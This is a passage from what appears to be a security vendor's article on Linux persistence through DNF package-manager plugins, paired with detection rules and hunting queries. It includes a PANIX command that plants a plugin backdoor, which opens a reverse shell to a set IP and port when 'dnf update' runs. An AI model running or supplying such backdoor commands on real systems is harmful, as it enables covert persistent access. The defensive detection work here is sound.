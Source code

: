 
As for YUM, each plugin must be enabled through a `.conf` configuration file:

```
[main]                                                                                                                               enabled=1
```

Similar to YUM's plugins and APT's configuration files, DNF plugins can be exploited by malicious actors to inject and execute unauthorized code during routine package management tasks. This attack vector extends to automated processes such as system updates, enabling persistent execution on systems with DNF-enabled repositories.

#### Persistence through T1546.016 - installer packages (DNF)

Similar to APT and YUM, DNF plugins should be crafted carefully to not interfere with the DNF update execution flow. You can use the following [example](https://github.com/Aegrah/PANIX/blob/main/panix.sh#L2049-L2069) or set it up by running:

```
> sudo ./panix.sh --package-manager --ip 192.168.1.1 --port 2013 --dnf
> [+] DNF persistence established
```

Running a command similar to `sudo dnf update` will trigger the backdoor. Take a look at the events:

![Events generated as a result of package manager (DNF) persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image12.png "Events generated as a result of package manager (DNF) persistence establishment")

After the execution of PANIX, `/usr/lib/python3.9/site-packages/dnfcon`, `/etc/dnf/plugins/dnfcon.conf` and `/usr/lib/python3.9/site-packages/dnf-plugins/dnfcon.py` are created, and the backdoor is established. These locations are dynamic, based on the Python version in use. After triggering it through the `sudo dnf update` command, the `dnf` → `sh` → `setsid` → `dnfcon` → `python` reverse shell chain is initiated. Similar to before, our DNF coverage is multi-layered, and detects the following events:

| Category | Coverage                                              |
|----------|-------------------------------------------------------|
| File | [DNF Package Manager Plugin File Creation](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_dnf_package_manager_plugin_file_creation.toml)|
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml)           |
| Process  | [Yum/DNF Plugin Status Discovery](https://github.com/elastic/detection-rules/blob/main/rules/linux/discovery_yum_dnf_plugin_detection.toml)                       |
| Network  | [Egress Connection by a DNF Package Manager Descendant](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_egress_connection_by_a_dnf_package_manager_descendant.toml) |

### Hunting for persistence through T1546.016 - installer packages

Hunting for Package Manager persistence can be conducted through ES|QL and OSQuery. Indicators of compromise may include configuration and plugin file creations/modifications and unusual executions of APT/YUM/DNF parents. The [Persistence via Package Manager](https://github.com/elastic/detection-rules/blob/main/hunting/linux/queries/persistence_via_package_manager.toml) rule contains several ES|QL/OSQuery queries that you can use to detect these abnormalities.
